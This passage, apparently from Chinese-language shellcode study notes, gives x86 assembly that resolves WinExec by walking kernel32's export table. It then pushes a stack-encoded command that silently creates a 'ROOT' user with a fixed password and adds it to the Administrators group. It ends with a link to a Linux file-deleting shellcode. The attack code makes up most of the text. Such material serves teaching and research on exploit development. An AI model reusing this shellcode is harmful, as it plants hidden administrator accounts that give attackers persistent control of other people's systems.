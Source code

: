     searchLoop:
    mov edi, edx    ; EDI = &ExportNameTable
    mov esi, esp    ; ESI = "WinE"
    xor ecx, ecx
    cld                  ; Process strings left to right
    mov edi, [edi+eax*4] ; EDI = RVA NthNameString
    add edi, [esp+0xC]   ; EDI = &NthNameString
    add cx, 0x4          ; ECX = len("WinE")
    repe cmpsb           ; compare [&NthNameString] to "WinExec"
    jz found             ; If [&NthNameString] == "WinExec" end loop
    inc eax              ; Counter ++
    jmp short searchLoop ; restart loop

    found:
    mov ecx, [esp+0x8]     ; ECX = &ExportOrdinalTable
    mov ax,  [ecx + eax*2] ;  AX = ordinalNumber
    mov edx, [esp+0x4]     ; EDX = &ExportAddrTable
    mov ebx, [edx + eax*4] ; EBX = RVA WinExec
    add ebx, [esp+0xC]     ; EBX = &WinExec
    ```
    - 添加用户操作，将命令字符串压入栈中，调用`WinExec`函数打开命令行，使用命令行执行命令
    ```
    add_user:
    ; Call WinExec( CmdLine, ShowState );
    ; $CmdLine = 'cmd.exe /c net user ROOT I@mR00T$ /ADD && net localgroup Administrators ROOT /ADD'
    ; $ShowState = SW_HIDE  
    xor ecx, ecx
    mul ecx
    mov al, 0x44    ; D : 44
    push eax
    push 0x44412f20 ; DA/  
    push 0x544f4f52 ; TOOR 
    push 0x2073726f ;  sro 
    push 0x74617274 ; tart 
    push 0x73696e69 ; sini 
    push 0x6d644120 ; mdA  
    push 0x70756f72 ; puor 
    push 0x676c6163 ; glac 
    push 0x6f6c2074 ; ol t 
    push 0x656e2026 ; en & 
    push 0x26204444 ; & DD 
    push 0x412f2024 ; A/ $ 
    push 0x54303052 ; T00R 
    push 0x6d404920 ; m@I  
    push 0x544f4f52 ; TOOR 
    push 0x20726573 ;  res 
    push 0x75207465 ; u te 
    push 0x6e20632f ; n c/ 
    push 0x20657865 ;  exe 
    push 0x2e646d63 ; .dmc 
    mov eax, esp    ; EAX = &CmdLine
    push ecx        ; $ShowState 
    push eax        ; $CmdLine
    call ebx        ; Call the WinExec Function
    ```
* 【3】[Linux/x86_64 - Delete File (test.txt) Shellcode](https://www.exploit-db.com/shellcodes/46870)
  * 实现：删除test.txt文件  